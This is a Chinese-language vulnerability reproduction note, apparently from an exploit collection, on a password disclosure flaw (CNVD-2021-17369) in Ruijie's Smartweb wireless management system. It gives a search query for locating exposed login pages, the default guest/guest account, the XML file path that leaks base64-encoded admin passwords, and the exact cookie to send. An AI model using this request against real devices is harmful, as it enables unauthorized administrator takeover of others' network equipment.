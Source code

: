 # 锐捷 Smartweb管理系统 密码信息泄露漏洞 CNVD-2021-17369

# 锐捷 Smartweb管理系统 密码信息泄露漏洞 CNVD-2021-17369

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

```
锐捷网络股份有限公司 无线smartweb管理系统
```

## 网络测绘

```
title="无线smartWeb--登录页面"
```

## 漏洞复现

登录页面如下

![](/images/202202110921639.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](/images/202202110921386.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](/images/202202110921729.png)

直接获得所有的账户的等级标志和base64加密的账号密码

